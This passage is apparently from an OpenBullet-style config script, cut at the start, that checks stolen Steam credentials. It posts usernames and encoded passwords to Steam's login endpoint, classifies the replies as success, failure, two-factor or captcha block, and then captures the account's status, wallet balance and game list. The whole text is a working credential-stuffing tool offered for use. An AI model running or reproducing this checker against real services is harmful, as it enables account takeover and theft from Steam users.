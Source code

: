 ```
JUMP #PASS2
ENDIF 

FUNCTION URLEncode "<PASS2>" -> VAR "PASS3" 

FUNCTION CurrentUnixTime -> VAR "0" 

REQUEST POST "https://steamcommunity.com/login/dologin/" 
  CONTENT "donotcache=<0>&password=<PASS3>&username=<US>&twofactorcode=&emailauth=&loginfriendlyname=&captchagid=-1&captcha_text=&emailsteamid=&rsatimestamp=<111>&remember_login=false&oauth_client_id=3638BFB1" 
  CONTENTTYPE "application/x-www-form-urlencoded" 
  HEADER "Accept: */*" 
  HEADER "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" 
  HEADER "Origin: https://steamcommunity.com" 
  HEADER "X-Requested-With: XMLHttpRequest" 
  HEADER "User-Agent: <S>" 
  HEADER "Referer: https://steamcommunity.com/mobilelogin?oauth_client_id=3638BFB1&oauth_scope=read_profile%20write_profile%20read_client%20write_client" 
  HEADER "Accept-Encoding: gzip, deflate, br" 
  HEADER "Accept-Language: en-us" 

KEYCHECK 
  KEYCHAIN Failure OR 
    KEY "The account name or password that you have entered is incorrect" 
    KEY "Incorrect account name or password." 
  KEYCHAIN Success OR 
    KEY "success\":true" 
  KEYCHAIN Custom "2FACTOR" OR 
    KEY "requires_twofactor\":true,\"" 
    KEY "emailauth_needed\":true" 
  KEYCHAIN Ban OR 
    KEY "captcha_needed\":true" 

PARSE "<SOURCE>" JSON "steamid" -> VAR "ID" 

REQUEST GET "https://store.steampowered.com/account/" 
  
  HEADER "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 13_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148" 
  HEADER "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" 
  HEADER "Accept-Language: en-us" 
  HEADER "Accept-Encoding: gzip, deflate, br" 

KEYCHECK BanOnToCheck=FALSE 
  KEYCHAIN Success OR 
    KEY "s account</title>" 

PARSE "<SOURCE>" LR "account_manage_label\">Status:" "class=\"account_manage_link" -> VAR "st" 

PARSE "<st>" LR "\">" "</a>" -> CAP "Status" 

PARSE "<SOURCE>" LR "<div class=\"accountData price\">" "</div>" CreateEmpty=FALSE -> CAP "Balance" 

REQUEST GET "https://steamcommunity.com/profiles/<ID>/games?tab=all" 
  
  HEADER "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 13_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148" 
  HEADER "Pragma: no-cache" 
  HEADER "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" 
  HEADER "Accept-Language: en-us" 
  HEADER "Accept-Encoding: gzip, deflate, br" 
```